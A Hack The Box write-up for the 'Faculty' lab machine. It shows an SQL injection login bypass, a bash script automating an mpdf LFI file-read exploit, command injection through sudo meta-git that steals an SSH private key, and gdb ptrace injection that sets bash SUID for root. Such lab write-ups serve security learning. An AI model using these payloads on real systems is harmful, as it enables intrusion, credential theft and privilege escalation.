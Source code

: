 ```yaml
---
layout: single
title: Faculty HTB writeup
excerpt: "Medium linux machine in which we exploit mpdf with a bash script and escalate with gdb thanks to a capability"
date: 2022-07-27
classes: wide
header:
  teaser: /assets/images/faculty/icon-faculty.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - writeup
tags:
  - hackthebox
  - mpdf
  - capabilities
  - gdb
  - bash scripting
---
```


![](/assets/images/faculty/faculty.png)

# Faculty
## User flag

```shell
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

The machine starts quite easily with a simple sql injection in the admin page that can be find by fuzzing. The payload admin' OR '1'='1 will bypass the login.

Then after inspecting the page It's clear that the next step is probably hacking the pdf downlaod since it is the main functionality of the page. Thanks to the url we know that the software being used is mpdf, searching on google by mpdf exploit I found a LFI exploit and later a [github issue](https://github.com/mpdf/mpdf/issues/356) that explains how to exploit it. If you intercept the request with burp you can see that the pdf data is url encoded two times and base64 encoded once. So I decided to create a bash script to automate the LFI proccess

```bash
#!/bin/bash


while true
do
        echo -n "enter file to donwload: "
        read file
        payload="<annotation file=\"$file\" content=\"$file\"  icon=\"Graph\" title=\"Attached File: $file\" pos-x=\"195\" />"

        payload=$(echo $payload | python3 -c "import urllib.parse, sys; print(urllib.parse.quote(sys.stdin.read()))")
        payload=$(echo $payload | python3 -c "import urllib.parse, sys; print(urllib.parse.quote(sys.stdin.read()))")
        payload=$(echo $payload | base64)
        pdf=$(curl -s -d "pdf=$payload" -H "Content-Type: application/x-www-form-urlencoded" -X POST http://faculty.htb/admin/download.php)
        timeout 0.5 wget http://faculty.htb/mpdf/tmp/$pdf &>/dev/null
        if [ $? -ne 0 ]
        then
                echo "file not found"
        else
                pdfdetach -save 1 $pdf  &>/dev/null
                rm $pdf
        fi

done
```

After getting /etc/passwd I kept searching in the page until I found a interesting route /var/www/scheduling/admin/admin.class.php and inside this file the is a reference to db\_connect.php so I downloaded that one too and I found a password. With the user from passwd and the password I connected to the user gbyolo with the password but I wasn't the user yet.

after executing sudo -l I found out that user gbyolo can execute meta-git as developer

```shell
gbyolo@faculty:~$ sudo -l
[sudo] password for gbyolo:
Matching Defaults entries for gbyolo on faculty:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User gbyolo may run the following commands on faculty:
    (developer) /usr/local/bin/meta-git
```

I started searching vulnerabilities and found this [HackerOne report](https://hackerone.com/reports/728040) So i used it to get the ssh key from user developer.


```shell
gbyolo@faculty:/tmp$ sudo -u developer meta-git clone 'sss||cat /home/developer/.ssh/id_rsa'
```

**Be aware that running it in gbyolo home won't work since developer can't access that directory**. Next just get the user flag


```shell
[dasor@archlinux ~/.ssh]$ ssh -i htb_rsa developer@faculty.htb
developer@faculty:~$ cat user.txt
```

## Root flag

If we execute linpeas the fact that gdb is in path appear ins red many times also by executing the group command we can see that the use developer is in the debug group

```shell
developer@faculty:/tmp$ groups
developer debug faculty
```

So I checked gdb and realized it had the ptrace capability so I attached it to a python process that was being run by root and escalated privileges

```shell
developer@faculty:/tmp$ ps -aux | grep root | grep python
root         732  0.0  0.9  26896 18120 ?        Ss   Aug13   0:00 /usr/bin/python3 /usr/bin/networkd-dispatcher --run-startup-triggers
developer@faculty:/tmp$ gdb -p 732
GNU gdb (Ubuntu 9.2-0ubuntu1~20.04.1) 9.2
...
0x00007f7238649967 in __GI___poll (fds=0x1a01a60, nfds=3, timeout=-1) at ../sysdeps/unix/sysv/linux/poll.c:29
29      ../sysdeps/unix/sysv/linux/poll.c: No such file or directory.
(gdb) call (void)system("chmod u+s /bin/bash")
[Detaching after vfork from child process 36079]
(gdb) quit
A debugging session is active.

        Inferior 1 [process 732] will be detached.

Quit anyway? (y or n) y
Detaching from program: /usr/bin/python3.8, process 732
[Inferior 1 (process 732) detached]
developer@faculty:/tmp$ /bin/bash -p
bash-5.0# whoami
root
```
